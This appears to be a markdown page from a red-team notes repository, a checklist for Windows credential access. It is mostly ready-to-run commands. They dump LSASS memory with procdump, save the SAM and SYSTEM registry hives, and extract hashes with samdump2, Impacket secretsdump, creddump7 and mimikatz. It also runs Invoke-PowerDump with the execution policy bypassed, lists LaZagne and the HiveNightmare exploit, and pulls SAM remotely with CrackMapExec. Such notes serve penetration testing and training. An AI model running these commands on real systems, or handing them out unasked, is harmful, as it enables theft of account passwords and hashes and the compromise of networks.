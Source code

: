 # Credential Access

The adversary is trying to steal account names and passwords.

### Dump LSASS

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

check https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz for GUI dump

### Dumping Hashes

List of loots to collect
- [ ] Manually

  ```
    reg save hklm\sam C:\Users\Public\sam
    reg save hklm\system C:\Users\Public\system
  ```
  Once you have retrieved the data from SAM, you can use SamDump2 tool to dump its hashes with the following command
  
  `samdump2 system sam`

**Extract hashes from SAM and SYSTEM**
- Impacket
```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
python3 -m pip install .
cd examples
```
  `./secretsdump.py -sam /root/Desktop/sam -system /root/Desktop/system LOCAL`

- creddump7
	```
	git clone https://github.com/Tib3rius/creddump7
	pip3 install pycrypto   
	python3 creddump7/pwdump.py SYSTEM SAM
	```
	

- [ ] Mimikatz
  - binaries https://github.com/ParrotSec/mimikatz
  - project https://github.com/gentilkiwi/mimikatz
  - mimikatz cheatsheet https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49
  
  ```
  privilege::debug
  token::elevate
  lsadump::sam
  ```
  
- [ ] Pypykatz
  - Project https://github.com/skelsec/pypykatz
  - Demo https://www.youtube.com/watch?v=X4YCJYQ-zVg
 
- [ ] Nightmare Hive
  - Exploit allowing you to read any registry hives as non-admin.
  - https://github.com/GossiTheDog/HiveNightmare/tree/master/Release

- [ ] PwDump7
  - Only for Windows7
  - https://www.tarasco.org/security/pwdump_7/pwdump7.zip

- [ ] Powershell Script
  - https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1
  - `powershell.exe -exec bypass -Command "& {Import-Module .\Invoke-PowerDump.ps1; Invoke-PowerDump}"`

- [ ] lazagne.exe
  - project https://github.com/AlessandroZ/LaZagne
  - binaries https://github.com/AlessandroZ/LaZagne/releases/
  - `lazagne.exe all`

- [ ] CrackMapExec 
  - `crackmapexec smb 192.168.1.105 -u 'AdministratorUsername' -p 'password1234' --sam`
  
  
### WiFi Credentials

   - [ ] Windows WiFi Password Extractor
     - https://github.com/hmaverickadams/Windows-WiFi-Extractor
     
### References
- https://www.hackingarticles.in/credential-dumping-sam/
